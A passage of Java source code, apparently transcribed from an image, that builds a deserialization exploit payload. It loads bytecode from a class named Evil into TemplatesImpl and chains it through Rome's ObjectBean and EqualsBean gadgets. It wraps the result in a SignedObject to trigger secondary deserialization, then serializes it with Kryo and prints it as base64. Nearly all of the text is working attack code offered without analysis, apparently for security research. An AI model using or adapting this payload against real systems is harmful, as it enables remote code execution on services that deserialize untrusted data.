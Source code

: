 ```java
                        } else {
                            setMethod.invoke(kryo, p1);
                        }
                    } catch (Exception var10) {
                    }
                }
            }
        }

        byte[] bytes=ClassPool.getDefault().get(Evil.class.getName()).toBytecode();

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{bytes});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        HashMap hashMap1 = getpayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(hashMap1, kp.getPrivate(), Signature.getInstance("DSA"));

        HashMap hashMap2 = getpayload(SignedObject.class, signedObject);

        //序列化
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        Output output = new Output(bos);
        kryo.writeClassAndObject(output, hashMap2);
        output.close();
        System.out.println(Base64.getEncoder().encodeToString(bos.toByteArray()));

        //反序列化
        ByteArrayInputStream bas = new ByteArrayInputStream(bos.toByteArray());
        Input input = new Input(bas);
        kryo.readClassAndObject(input);
    }

    public static HashMap getpayload(Class clazz, Object obj) throws Exception {
        ObjectBean objectBean = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "rand"));
        HashMap hashMap = new HashMap();
        hashMap.put(objectBean, "rand");
        ObjectBean expObjectBean = new ObjectBean(clazz, obj);
        setFieldValue(objectBean, "equalsBean", new EqualsBean(ObjectBean.class, expObjectBean));
        return hashMap;
    }
}
```
